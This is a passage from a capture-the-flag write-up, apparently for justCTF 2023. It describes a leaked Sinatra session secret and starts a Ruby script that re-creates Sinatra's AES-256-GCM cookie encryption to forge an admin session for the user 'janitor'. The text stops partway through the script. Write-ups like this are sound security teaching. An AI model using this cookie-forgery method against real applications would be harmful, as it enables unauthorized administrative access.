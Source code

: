 ![](/assets/img/writeups/justCTF2023/Dangerous%20Writeup.003.png)

Scrolling down the page, we can see the session secret and information about how the cookie is encoded:

![](/assets/img/writeups/justCTF2023/Dangerous%20Writeup.004.png)

Since we have the session secret, we can probably forge our own cookies.

After reading and copying parts of the Sinatra [source code](https://github.com/sinatra/sinatra/blob/main/rack-protection/lib/rack/protection/encryptor.rb), I created a ruby script to modify my session cookie to include a `username` key where the value is the admin user `janitor`:

```ruby
require 'pp'
require 'base64'
require 'openssl'
require 'digest'
require 'uri'

CIPHER = "aes-256-gcm"
DELIMITER = "--"

def base64_encode(str)
    [str].pack('m0')
end

def base64_decode(str)
    str.unpack1('m0')
end

def encrypt_message(data, secret, auth_data = '')
   raise ArgumentError, 'data cannot be nil' if data.nil?

```